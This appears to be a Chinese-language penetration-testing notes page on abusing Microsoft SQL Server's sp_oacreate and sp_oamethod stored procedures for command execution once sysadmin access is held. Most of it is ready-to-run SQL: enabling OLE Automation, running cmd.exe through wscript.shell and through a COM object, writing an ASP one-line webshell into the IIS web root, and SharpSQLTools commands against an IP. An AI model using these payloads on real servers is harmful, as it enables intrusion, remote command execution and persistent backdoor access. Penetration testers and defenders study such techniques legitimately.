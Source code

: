 ------



#### 系统存储过程

- 以`sp_`开头,进行系统的设定,如:`sp_oacreate`,`sp_oamethod`

- 利用`条件`

  - 1.已获得`sqlserver sysadmin权限`的用户,且账号与密码未降权

  - 2.sqlserver允许`远程连接`

  - `OLE Automation Procedures`选项开启

    `sp_oacreate`是创建OLE对象的实例

    `sp_oamethod`是调用一个OLE对象的方法

    组合`sp_oacreate`,`sp_oamethod`可执行命令无回显

  ```sql
  #启用sp_oacreate
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE WITH OVERRIDE;
  EXEC sp_configure 'Ole Automation Procedures',1;
  RECONFIGURE WITH OVERRIDE;
  
  #利用mssql定义变量shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt'
  
  #写一句话木马webshell
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  
  #组合sp_oacreate和sp_oamethod利用com组件执行命令
  declare @luan int,@exec int,@text int,@str varchar(8000);
  exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
  exec sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
  exec sp_oamethod @exec,'StdOut',@text out;exec sp_oamethod @text,'readall',@str out;
  select @str;
  
  #SharpSQLTools工具利用sp_oacreate执行命令
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_ole
  SharpSQLTools.exe 192.168.1.1 tomato tomato master sp_oacreate whoami
  ```

------



#### 本地存储过程

- 本地存储过程指用户创建的自定义存储过程.如:`CLR`
